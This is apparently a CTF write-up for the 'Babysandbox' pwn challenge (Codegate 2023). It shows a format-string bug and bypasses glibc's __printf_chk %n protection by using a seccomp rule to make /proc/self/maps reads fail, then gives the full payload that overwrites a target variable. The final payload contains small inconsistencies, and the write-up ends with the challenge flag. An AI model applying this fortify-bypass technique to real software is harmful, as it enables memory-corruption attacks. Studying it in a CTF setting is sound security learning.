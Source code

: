 ```yaml
---
title: Babysandbox
date: 2023-07-09T01:52:07+03:00
description: Writeup for Babysandbox [Codegate Qualifs 2023]
author: zenbassi
tags:
- pwn
- misc
draft: true
---
```

___

## Challenge Description

Can't remeber. ups

## Intuition

For this challenge we have the source code available, so looking at it we notice a few things.

Firstly, we notice that the first input is the length and the payload for a seccomp rule. Then we see that a first check is passed and `vuln` is called. We can provide a second input of maximum 256 bytes, which is used in a printf-like function. This looks like a classic string-format vulnerability.

```c
void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input); // <- string format vulnerability

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}
```

The issue is that `__printf_chk` is a hardened version of `printf` which
doesn't allow the use of `%n` to write to memory. We have to somehow bypass
this limitation in order to change the value in `target` to `0x1337`.


## Solution

The easiest way we found to generate seccomp payloads is to use `seccomp-tools`
[^1]. If we compile `return ALLOW` we get `\x06\x00\x00\x00\x00\x00\xFF\x7F`.
To make this a valid payload we prepend the 4-byte length and get
`\x08\x00\x00\x00\x06\x00\x00\x00\x00\x00\xff\x7f`. Sending this to the program 
passes the seccomp-loading phase, so we're good in that regard.

Now what? 

### The seccomp payload

We somehow have to bypass the check in `__printf_chk` and might be able to use
some seccomp rules to achieve this. Luckily, we found
[this](https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/) [^2]
blog post, which pretty much does exactly what we need. Looking in the `glib`
implementation of `__printf_chk`, we see that the issue described in the blog
still exists. To find this, I just searched on
[codebrowser](https://codebrowser.dev/glibc/glibc/) for the error `*** %n in
writab...`.

```c
if ((mode_flags & PRINTF_FORTIFY) != 0)
{
    if (!readonly_format)
    {
        extern int __readonly_area (const void *, size_t)
    attribute_hidden;
        readonly_format
    = __readonly_area (format, ((STR_LEN (format) + 1)
                    * sizeof (CHAR_T)));
    }
    if (readonly_format < 0)
    __libc_fatal ("*** %n in writable segment detected ***\n");
}
```

It's clear that `__readonly_area` gets called and returns something lower than
0. The plant would be to return something greater than 0 to bypass the security
check. Looking at the `__readonly_area` implementation we see the following:

```c
  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
```

It's clear now that if we make `fopen` fail with `ENOENT` or `EACCESS` the
function will return 1, which will bypass the check we're concerned with.
This is achievable via seccomp rules:

```
A = sys_number
A != openat ? ok : next
A = args[1]
A &= 0xff
A == 0x47 ? ok : next
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```
Notice a few things:
1. We're looking for the `openat` syscall. We wasted a lot of time trying to
   catch an `open` syscal, but eventually thought of running our binary with
   `strace`. Only then we saw the it calls `openat`.
2. We also check the first argument of the `openat` call, which is the file
   name address. `0x47` is the last byte of the `FLAG_PATH` address.

### The string format exploit

We have to write `0x1337` to the address. The way we can to this is by using
the `%n` format modifier, which writes **the number of bytes written so** to the address given. However, we have to use some tricks in order to abuse this.

1. The first trick is to use `%{k}c` which prints a character given as argument
   but also pads it to the left with spaces until the number of outputted
   characters is equal to $k$.
2. In order to use `%n` with a given address, we first have to _consume_
   some arguments. We can do that using `%p`. Now the question is, how many
   arguments? 6 at least are taken from registers, which we have no control
   over. The following are taken from the stack, 8 bytes at a time (if we use
   `%p`), so we have to carefully align everything.

Our final payload looked like this:
```
x = 4771
seccomp_payload = b" \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00 \x00\x00\x00\x18\x00\x00\x00T\x00\x00\x00\xFF\x00\x00\x00\x15\x00\x01\x00G\x00\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
payload = p32(len(payload)) + seccomp_payload

payload += f'%{x}c%p.%p.%p.%p.%p.%p.%p.%p.%p.%p%naaa'.encode()
payload += p64(0x404088) # target address
```

The length of the given format string (excluding the target address) is exactly 40 bytes, meaning that we have to use 5 `%p`s to consume it all. In the end we append the target address to the payload so `%n` writes to it. `x` has to be adjusted according to how much characters are printed overall (can be easily done with gdb).

### Flag

`bestctf{.hidden_struggled_with_this_one}`

## References (in case you used [^footnotes] thingies)
[^1]: seccomp-tools: https://github.com/david942j/seccomp-tools
[^2]: 2017 HXP CTF - hardened flag writeup: https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/
